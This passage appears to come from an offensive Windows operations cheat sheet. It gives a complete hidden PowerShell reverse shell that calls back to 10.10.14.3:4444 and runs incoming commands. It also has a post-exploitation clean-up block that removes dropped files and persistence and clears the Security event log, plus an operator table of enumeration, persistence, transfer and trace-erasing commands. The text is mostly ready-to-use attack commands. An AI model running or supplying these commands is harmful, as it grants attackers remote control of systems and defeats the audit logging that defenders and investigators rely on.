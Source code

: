 ```cmd
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.3',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

***

### XIV. 🧠 Post-Exploitation Clean-Up

```cmd
del /f /q C:\Temp\file.exe
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /f
schtasks /delete /tn Updater /f
wevtutil cl Security
```

***

### XV. ⚡ Operator Shortcuts Table

| Category             | Command                         | Description                |
| -------------------- | ------------------------------- | -------------------------- |
| User Info            | `net user`, `whoami /groups`    | Enumerate accounts         |
| Network              | `ipconfig /all`, `netstat -ano` | View adapters/ports        |
| Privilege Escalation | `whoami /priv`, `sudo -l`       | Identify privilege context |
| Services             | `sc qc`, `wmic service get ...` | Inspect misconfigurations  |
| Persistence          | `schtasks`, `reg add ...Run`    | Maintain presence          |
| Transfer             | `certutil`, `bitsadmin`         | File movement              |
| Clean-Up             | `wevtutil cl`, `del /f /q`      | Erase traces               |

***
